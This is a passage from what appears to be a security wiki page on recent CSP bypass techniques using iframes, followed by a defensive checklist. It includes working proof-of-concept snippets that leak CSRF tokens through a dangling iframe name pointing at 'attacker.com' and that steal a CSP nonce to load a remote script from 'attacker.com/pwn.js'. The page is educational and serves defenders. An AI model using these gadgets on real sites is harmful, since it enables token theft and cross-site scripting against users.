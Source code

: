 #### New (2023-2025) CSP bypass techniques with iframes

The research community continues to discover creative ways of abusing iframes to defeat restrictive policies. Below you can find the most notable techniques published during the last few years:

* **Dangling-markup / named-iframe data-exfiltration (PortSwigger 2023)** – When an application reflects HTML but a strong CSP blocks script execution, you can still leak sensitive tokens by injecting a *dangling* `<iframe name>` attribute. Once the partial markup is parsed, the attacker script running in a separate origin navigates the frame to `about:blank` and reads `window.name`, which now contains everything up to the next quote character (for example a CSRF token). Because no JavaScript runs in the victim context, the attack usually evades `script-src 'none'`. A minimal PoC is:

  ```html
  <!-- Injection point just before a sensitive <script> -->
  <iframe name="//attacker.com/?">  <!-- attribute intentionally left open -->
  ````
  ```javascript
  // attacker.com frame
  const victim = window.frames[0];
  victim.location = 'about:blank';
  console.log(victim.name); // → leaked value
  ```

* **Nonce theft via same-origin iframe (2024)** – CSP nonces are not removed from the DOM; they are merely hidden in DevTools. If an attacker can inject a *same-origin* iframe (for example by uploading HTML to the site) the child frame can simply query `document.querySelector('[nonce]').nonce` and create new `<script nonce>` nodes that satisfy the policy, giving full JavaScript execution despite `strict-dynamic`. The following gadget escalates a markup injection into XSS:

  ```javascript
  const n = top.document.querySelector('[nonce]').nonce;
  const s = top.document.createElement('script');
  s.src = '//attacker.com/pwn.js';
  s.nonce = n;
  top.document.body.appendChild(s);
  ```

* **Form-action hijacking (PortSwigger 2024)** – A page that omits the `form-action` directive can have its login form *re-targeted* from an injected iframe or inline HTML so that password managers auto-fill and submit credentials to an external domain, even when `script-src 'none'` is present. Always complement `default-src` with `form-action`!

**Defensive notes (quick checklist)**

1. Always send *all* CSP directives that control secondary contexts (`form-action`, `frame-src`, `child-src`, `object-src`, etc.).
2. Do not rely on nonces being secret—use `strict-dynamic` **and** eliminate injection points.
3. When you must embed untrusted documents use `sandbox="allow-scripts allow-same-origin"` **very carefully** (or without `allow-same-origin` if you only need script execution isolation).
4. Consider a defense-in-depth COOP+COEP deployment; the new `<iframe credentialless>` attribute (§ below) lets you do so without breaking third-party embeds.

### Other Payloads found on the wild <a href="#other_payloads_found_on_the_wild_64" id="#other_payloads_found_on_the_wild_64"></a>

